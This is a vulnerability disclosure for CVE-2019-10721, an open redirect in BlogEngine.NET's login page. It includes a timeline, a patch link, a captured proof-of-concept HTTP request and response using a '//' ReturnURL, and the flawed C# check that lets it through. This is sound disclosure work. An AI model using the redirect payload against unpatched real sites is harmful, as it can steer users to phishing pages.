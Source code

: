 A unvalidated redirect, CVE-2019-10721, exists on BlogEngine.NET versions 3.3.7 and earlier on `login.aspx`.  This attack would send users that attempt to log in to the application to an external, potentially malicious, site.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 19 Jun 2019

## Description

The **ReturnURL** parameter can be set to an external URL.  If a user clicks a link with a malicious **ReturnURL**, such as `http://$RHOST/Account/login.aspx?ReturnURL=//slashdot.org`, the user will be redirected to the malicious site after successfully logging in to the application.  The following request demonstrates the behavior:

~~~
POST /Account/login.aspx?ReturnURL=<r:b>%2f%2fslashdot.org</r:b> HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://$RHOST/Account/login.aspx?ReturnURL=//slashdot.org
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 576

__VIEWSTATE=DanAcZcPJOojiW7E3LvrMfJu3hs0SKHBoBaexIYMslcJdEydu3cltGFlO9cTUd5Z4i3KdDLD%2Fdvpqre5FXnXPIRp%2BxmYnwi2BRxerRN3Ul0T27h1s81dQ8N1KslY%2B9G3APOoHkB%2Bm1Bwhb1w0w%2F5RNji82uGfuaUvneYwkPUd6kMA6zk&__VIEWSTATEGENERATOR=CD85D8D2&__EVENTVALIDATION=xJNBuo98hov1SBPdrP0kv1MQMlBJ0QMs3MKusjVY576tVnNbdvNoaUEnUaOHjK80aL1AvGIs1H82weh6d1sIWVIDpoQUfuc2D3C09OOXPel6ekXf%2BHXUyHxra0IP0jhuPNt9eV9NikMzvnp498lh9livj2rCmHEcbaJIE5Kq85YBFJn4&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in


HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=utf-8
Location: http://slashdot.org/
Server: Microsoft-IIS/10.0
Set-Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=; path=/; HttpOnly
X-Powered-By: ASP.NET
Date: Thu, 04 Apr 2019 17:33:07 GMT
Connection: close
Content-Length: 137

<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="http://slashdot.org/">here</a>.</h2>
</body></html>
~~~

<pagebreak></pagebreak>

This behavior can be traced to:

~~~{command="BlogEngine/BlogEngine.Core/Services/Security/Security.cs"}
187                     // ignore Return URLs not beginning with a forward slash, such as remote sites.
188                     if (string.IsNullOrWhiteSpace(returnUrl) || !returnUrl.StartsWith("/"))
189                         returnUrl = null;
190
191                     if (!string.IsNullOrWhiteSpace(returnUrl))
192                     {
193                         context.Response.Redirect(returnUrl);
194                     }
195                     else
196                     {
197                         context.Response.Redirect(Utils.RelativeWebRoot);
198                     }
~~~

The application accepts a **ReturnUrl** that begins with `/`. `//` is commonly used to specify external URLs using the same protocol as the current page. `//slashdot.org` satisfies the requirement that the **ReturnURL** start with `/`.
